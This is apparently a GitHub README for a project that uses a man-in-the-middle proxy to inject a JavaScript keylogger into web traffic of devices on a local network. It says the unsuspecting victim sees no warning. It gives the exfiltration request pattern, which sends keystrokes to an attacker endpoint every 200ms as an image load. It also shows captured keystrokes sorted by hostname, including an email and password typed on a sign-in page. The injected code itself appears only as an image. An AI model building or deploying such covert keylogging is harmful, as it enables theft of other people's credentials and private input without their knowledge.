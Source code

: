 # mitm-proxy
Using a MITM proxy to add a browser-based keylogger to devices on your local network

# How does it work?

This works by injecting the following Javascript code into every request that takes place on the network.

<p align="center">
<img width=700px src ="static/code.png">
</p>

## Client Side

The unsuspecting user browses the web normally without experiencing any warnings/interuptions.

<p align="center">
<img width=500px src ="static/demo.gif">
</p>

Every 200ms, the client loads an "image" hosted at:

```
http://{ENDPOINT}/?c=[{"k":{KEY_PRESS},"t":{TIME_STAMP},"w":{HOSTNAME}}]
```

## Server Side

When the client reloads the image, a GET request is made to our Flask application.  We get the URL-encoded JSON object from the "c" query parameter, and it gives us something like this:

```javascript
[
    {
        "k": "t",
        "t": 186207233,
        "w": "www.ebay.com"
    },
    {
        "k": "r",
        "t": 186207235,
        "w": "www.ebay.com"
    },
    {
        "k": "t",
        "t": 186207238,
        "w": "www.ebay.com"
    }
]
```

Occasionally these keystrokes will not be in order, so we sort them by timestamp using the values in "t".

On the server side, we have logic that categorizes the keystrokes by the hostname of the site the request is sent from.  We save the keystrokes by hostname in the root directory of the project.

```bash
$ cat www.ebay.com
raspberry piEnteraphone casesEnter9400Backspace30
```

```bash
$ cat signin.ebay.com
totallynotarealemail@gmail.comfakepasswordEnter
```

